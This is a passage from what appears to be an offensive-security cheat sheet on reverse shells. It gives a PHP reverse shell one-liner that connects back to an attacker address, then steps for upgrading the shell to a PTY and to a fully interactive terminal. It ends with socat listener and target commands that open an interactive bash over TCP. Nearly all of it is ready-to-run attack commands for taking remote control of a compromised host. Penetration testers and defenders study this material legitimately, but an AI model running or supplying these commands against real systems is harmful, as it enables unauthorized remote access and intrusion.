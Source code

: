 ```
php -r '$sock=fsockopen("3.13.3.7",1524);exec("/bin/bash -i <&3 >&3 2>&3");'
```

<a id="rsu-anchor"></a>
<a id="rsup-anchor"></a>
**5.ii.a. Upgrade a reverse shell to a PTY shell**

Any of the above reverse shells are limited. For example *sudo bash* or *top* will not work. To make these work we have to upgrate the shell to a real PTY shell:

```
$ script -qc /bin/bash /dev/null  # Linux
$ script -q /dev/null /bin/bash   # BSD
```

Or:
```
# Python
$ python -c 'import pty; pty.spawn("/bin/bash")'
```

<a id="rsup2-anchor"></a>
**5.ii.b. Upgrade a reverse shell to a fully interactive shell**

...and if we also like to use Ctrl-C etc then we have to go all the way and upgrade the reverse shell to a real fully colorful interactive shell:

```
# On the target host spwan a PTY using any of the above examples:
$ python -c 'import pty; pty.spawn("/bin/bash")'

# Now Press Ctrl-Z to suspend the connection and return to your own terminal.
# On your terminal execute:
$ stty raw -echo

# ...and bring the connection back into the foreground:
$ fg
$ reset

# On target host
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows 24 columns 80
```

<a id="rssc-anchor"></a>
**5.ii.c. Reverse shell with socat (fully interactive)**

...or install socat and get it done without much fiddling about:

```
# on attacker's host (listener)
socat file:`tty`,raw,echo=0 tcp-listen:1524
# on target host (reverse shell)
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:3.13.3.7:1524
```

---